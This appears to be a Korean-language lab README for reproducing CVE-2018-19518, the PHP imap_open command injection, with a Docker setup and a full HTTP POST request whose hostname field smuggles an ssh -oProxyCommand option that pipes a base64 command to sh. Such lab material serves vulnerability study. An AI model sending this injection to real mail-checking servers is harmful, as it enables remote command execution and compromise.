 # CVE-2018-19518
## PHP imap 원격 명령 실행 취약성 (CVE-2018-19518)

php imap 확장은 PHP에서 메일 송수신 작업을 수행하는 데 사용됩니다.
`imap_open` 함수는 rsh를 호출하여 원격 shell에 연결합니다. 
debian/ubuntu에서는 rsh 대신 ssh를 사용합니다. 
(즉, debian 계열 시스템에서 rsh 명령을 실행하는 것은 실제로는 ssh 명령입니다.)

ssh 명령에서는 `-oProxyCommand=`를 설정하여 제3자 명령을 호출할 수 있기 때문에 공격자가 이 매개 변수를 삽입하여 궁극적으로 명령 실행 취약성을 초래할 수 있습니다.

참고 자료:
- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518

## 취약 환경

다음 명령을 실행하여 취약성이 있는 PHP 환경을 시작합니다.

```
docker compose up -d
```

환경을 실행한 후, `http://your-ip:8080`을 방문하면 웹 페이지를 볼 수 있습니다. 
웹의 기능은 메일 서버가 성공적으로 연결될 수 있는지 테스트하는 것입니다. 
서버 주소, 사용자 이름 및 암호를 입력해야 합니다.

코드 원본: [index.php](www/index.php)

## 반복될 수 있는 취약점

다음과 같은 패킷을 보내면 명령어 `echo'1234567890'>/tmp/test0001`을 성공적으로 실행할 수 있습니다.

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

`docker compose exec web bash` 를 실행하면 `/tmp/test0001` 가 성공적으로 생성되었습니다:
![](1.png)
